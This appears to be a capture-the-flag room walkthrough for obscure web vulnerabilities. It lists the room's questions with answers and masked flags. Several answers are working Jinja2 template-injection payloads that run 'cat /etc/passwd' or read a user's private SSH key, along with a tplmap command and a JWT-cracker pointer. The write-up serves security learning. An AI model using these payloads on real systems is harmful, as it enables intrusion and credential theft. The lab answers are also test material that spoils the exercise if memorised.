 # ZTH: Obscure Web Vulns

- Read the Intro.

	  no answer needed

- Read the above!

	  no answer needed

- Read the above.

	  no answer needed

- How would a hacker(you :) ) cat out /etc/passwd on the server(using cat with the rce payload)

	- `{{config.__class__.__init__.__globals__['os'].popen("cat /etc/passwd").read()}}`

- What about reading in the contents of the user test's private ssh key.(use the read file one not the rce one)

	- `{{ ''.__class__.__mro__[2].__subclasses__()[40]()(/home/test/.ssh/id_rsa).read()}}`

- How would I cat out /etc/passwd using tplmap on the ip:port combo 10.10.10.10:5000, with the vulnerable param "noot".

	- `tplmap -u http://10.10.10.10:5000/ -d 'noot' --os-cmd "cat /etc/passwd"`

- What is the flag?

	- `{{config.__class__.__init__.__globals__['os'].popen("ls /flag").read()}}`
	- Read the flag using this command
	- `********`

- Read the above.

	  no answer needed

- Read the above.

	  no answer needed

- What parameter allows us to generate a POC(actual exploit)

	- `--malicious`

- Earn that cookie!

	  no answer needed

- Read the above.

	  no answer needed

- Read the above.

	  no answer needed

- Read the above.

	 no answer needed

- What is the flag?

	- `noot****************`

- Remember to read the RFC when your developing a library.

	  no answer needed

- Read the above.

	  no answer needed

- Read the above

	  no answer needed

- What is the flag?

	- `*********noot`

- Read the above.

	  no answer needed

- Read the above.

	  no answer needed

- Read the above.

	  no answer needed

- How many users are on the system?

	- `31`

- What is the name of the user with a UID of 1000?

	- `p**a`

- Read the above.

	  no answer needed

- Read the above

	  no answer needed

- What is the secret?

	- [c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)
	- `****`

- Update me..

	  no answer needed

